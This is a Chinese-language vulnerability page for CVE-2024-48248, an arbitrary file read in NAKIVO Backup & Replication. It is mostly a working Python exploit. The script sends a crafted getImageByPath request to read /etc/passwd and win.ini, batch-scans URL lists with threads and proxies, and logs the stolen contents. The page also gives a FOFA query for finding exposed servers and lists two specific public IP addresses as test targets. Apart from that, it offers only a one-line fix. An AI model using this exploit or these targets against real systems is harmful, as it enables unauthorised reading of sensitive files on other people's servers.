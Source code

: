 # 漏洞描述
NAKIVO Backup & Replication是一款专注于虚拟化、云端及混合环境的备份与灾难恢复的解决方案。近日官方修复 CVE-2024-48248 NAKIVO Backup & Replication任意文件读取漏洞，攻击者可利用STPreLoadManagement类中的getImageByPath方法，绕过路径验证并读取目标服务器上的任意文件。

# 披露时间
<font style="color:rgb(33, 37, 41);">2025-02-26</font>

# 参考链接
[https://avd.aliyun.com/detail?id=AVD-2024-48248&timestamp__1384=eqIxcDBD9ABQDODlxGrtDyDAx%2BiK4e3Nwdx](https://avd.aliyun.com/detail?id=AVD-2024-48248&timestamp__1384=eqIxcDBD9ABQDODlxGrtDyDAx%2BiK4e3Nwdx)

# fofa语法
app="NAKIVO-Backup-&-Replication"

# py脚本
测试链接

[https://82.76.167.127:4443](https://82.76.167.127:4443)

[https://114.34.73.76:4443](https://114.34.73.76:4443)

```python
#!/usr/bin/python3
# -*- coding:utf-8 -*-
import argparse
import requests
import re
import time
import random
import base64
import json
import concurrent.futures
import sys
import urllib3
from urllib.parse import urljoin, quote

# 禁用 SSL 警告
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
timeout = 40  # 请求超时时间

def send_post_request(url, file, proxies={}):
    headers = {"Content-type": "application/json", "Accept-Encoding": "gzip, deflate, br"}
    payload = {
        "action": "STPreLoadManagement",
        "data": [file],
        "method": "getImageByPath",
        "sid": "",
        "tid": "watchTowr",
        "type": "watchTowr"
    }
    try:
        response = requests.post(f"{url}/c/router", headers=headers, json=payload, verify=False, proxies=proxies, timeout=timeout)
        response.raise_for_status()  # 检查HTTP错误
        return response
    except requests.exceptions.RequestException as e:
        print(f"[!] Request failed for URL '{url}' and file '{file}': {e}")
        return None

# 解码文件内容
def decode_file_content(response):
    try:
        parsed_json = response.json()
        data_array = parsed_json.get('data', [])
        return ''.join(chr(num) for num in data_array) if data_array else None
    except (json.JSONDecodeError, KeyError) as e:
        print(f"[!] Error parsing response: {e}")
        return None


def verify(url, proxies={}):
    if not url.startswith(('http://', 'https://')):
        # 如果没有，就添加 'http://'
        url = 'http://' + url

    files_to_read = ["C:/windows/win.ini", "/etc/passwd"]  # 需要读取的文件

    for file in files_to_read:
        print(f"[*] Attempting to read file '{file}'")
        response = send_post_request(url, file, proxies)

        if response and "NoSuchFileException" in response.text:
            print(f"[!] Error: NoSuchFileException for file '{file}'")
            continue
        if response:
            content = decode_file_content(response)
            if content:
                print('\033[1;31m' + '[+] Success ' + url + '\033[0m')
                with open('CVE-2024-48248.txt', 'a') as f:
                    f.write(url + '\n' + file + content + '\n\n')


def pl(filename):
    try:
        with open(filename, 'r', encoding='utf-8') as f:
            for line in f:
                url = line.strip()
                if url:
                    yield url
    except Exception as e:
        print(f"[-] Error reading file {filename}: {e}")

def main():
    # helpinfo = """ """
    # print(helpinfo)
    parser = argparse.ArgumentParser(description='CVE-2024-48248.txt')
    parser.add_argument('-u', '--url', type=str, help='单个漏洞网址')
    parser.add_argument('-f', '--file', type=str, help='批量检测文本')
    parser.add_argument('-t', '--thread', type=int, help='线程，默认为10')
    parser.add_argument('-p', '--proxies', type=str, help='代理设置，如 http://127.0.0.1:8080')
    args = parser.parse_args()

    proxies = {}
    if args.proxies:
        proxies = {'http': args.proxies, 'https': args.proxies}

    if args.url:
        verify(args.url, proxies=proxies)
    elif args.file:
        urls = pl(args.file)
        thread = 10
        if args.thread:
            thread = args.thread
        with concurrent.futures.ThreadPoolExecutor(max_workers=thread) as executor:
            executor.map(lambda url: verify(url, proxies=proxies), urls)

if __name__ == '__main__':
    main()
```

# 修复建议
升级至最新版本。

